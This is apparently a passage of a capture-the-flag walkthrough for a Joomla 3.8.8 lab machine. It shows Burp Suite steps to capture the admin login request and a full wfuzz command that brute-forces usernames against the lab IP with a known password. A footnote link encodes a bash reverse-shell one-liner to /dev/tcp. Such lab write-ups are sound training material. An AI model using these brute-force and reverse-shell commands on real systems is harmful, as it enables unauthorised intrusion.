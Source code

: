 
	https://www.google.com/search?q=joomla+changelog+3.8.8

At the time this Walkthrough was published there were no Joomla! 3.8.8 core exploits public. However, the following query today yields public exploits.
- https://www.youtube.com/watch?v=Lqehvpe_djs&list=PLidcsTyj9JXJrgTzRYdwnUhUThb9bL9py&index=8
https://www.google.com/search?q=joomla+core+vulnerabilities [^1] [^2]

### Intercept traffic using burpsuite

1. Enable Proxy => Intercept is on
2. Use Burp's embedded browser.
3. Browse to 10.129.171.59/administrator
4. Forward until login page is loaded.
5. Set username to FUZZ
6. Set password to Curling2018!
7. Click Login
8. Copy cookie and post data:

		99fb082d992a92668ce87e5540bd20fa=omf6d7fp9a02939ooeqahd5dnl
		
		username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&d36732e30d0405ece8d5e1e1e343928b=1

###  Bruteforce username using wfuzz and a custom wordlist

	wfuzz -h

#### Replaces anywhere FUZZ is in all caps with a line from wordlist

##### Not proxied through burp

	wfuzz -w cewl.out -c -d 'username=FUZZ&passwd=Curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0a3ab5ecdcbc47a15beabc106e671004=1' -b '99fb082d992a92668ce87e5540bd20fa=96vrskpirtingik35nav7gh66m' http://10.129.171.59/administrator/index.php

```bash
-w cewl.out										// wordlist
-c												// color output  
-d 												// post data  
-b												// cookie  
-p												// proxy (burp)  
http://10.129.161.239/administrator/index.php	// target

You can exclude results with one of the following:  

--hl 114										// hide results using 114 lines.  
--hc 200										// hide results using 200 response code.

After getting a correct login, you get an authentication cookie which may then cause the remaining items in the wordlist to return success responses.
```

##### Proxied through burp


[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency